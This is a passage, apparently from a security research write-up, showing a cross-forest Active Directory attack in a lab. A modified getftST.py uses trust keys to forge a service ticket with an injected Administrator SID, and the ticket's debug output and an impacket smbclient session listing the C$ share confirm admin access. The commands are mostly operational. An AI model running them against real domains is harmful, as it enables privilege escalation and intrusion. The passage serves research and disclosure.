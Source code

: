 With the modified `getftST.py` from my forest-trust-tools (which includes our trust keys) we then request a service ticket for the server in forest B:

```
KRB5CCNAME=fakeuser.ccache python getftST.py -spn cifs/forest-b-server.forest-b.krbtgt.cloud -target-domain forest-b.krbtgt.cloud -via-domain forest-a.krbtgt.cloud test/test -debug -dc-ip forest-b-dc.forest-b.krbtgt.cloud
```

This gives a lot of debug info, but the important part is that the extra SIDs are included in the service ticket:

```
ExtraSids:                      
    [
         
        Sid:                            
            Revision:                        1 
            SubAuthorityCount:               5 
            IdentifierAuthority:             b'\x00\x00\x00\x00\x00\x05' 
            SubAuthority:                   
                [
                     21,
                     2937342636,
                     164546242,
                     3042484607,
                     500,
                ] 
        Attributes:                      7 ,
    ] 
```

This is also visible in Wireshark (provided we have the AES key of the computer account of server B loaded for debugging):

![Extra SIDs visible in the TGS-REP in Wireshark](/assets/img/foresttrusts/extrasids-wireshark.png){: .align-center}

The final step is to use this ticket against the server in forest B and note that we became an Administrator there (which is visible because we can list the C:\ drive which is ADMIN only):

```
KRB5CCNAME=test.ccache python ~/impacket/examples/smbclient.py -k forest-a.krbtgt.cloud/fakeuser@forest-b-server.forest-b.krbtgt.cloud -no-pass 
Impacket v0.9.23.dev1+20210528.195232.25c62f65 - Copyright 2020 SecureAuth Corporation

Type help for list of commands
# use C$
# ls
drw-rw-rw-          0  Mon Aug 17 03:45:45 2020 $Recycle.Bin
-rw-rw-rw-     389408  Wed Dec  4 21:28:06 2019 bootmgr
-rw-rw-rw-          1  Wed Dec  4 21:28:06 2019 BOOTNXT
drw-rw-rw-          0  Wed Dec  4 21:44:12 2019 Documents and Settings
drw-rw-rw-          0  Thu Jun 10 11:40:01 2021 Packages
drw-rw-rw-          0  Wed Dec  4 21:37:36 2019 PerfLogs
drw-rw-rw-          0  Wed Dec  4 21:37:36 2019 Program Files
drw-rw-rw-          0  Wed Dec  4 21:37:36 2019 Program Files (x86)
drw-rw-rw-          0  Mon Aug 17 09:35:12 2020 ProgramData
drw-rw-rw-          0  Wed Dec  4 21:44:13 2019 Recovery
```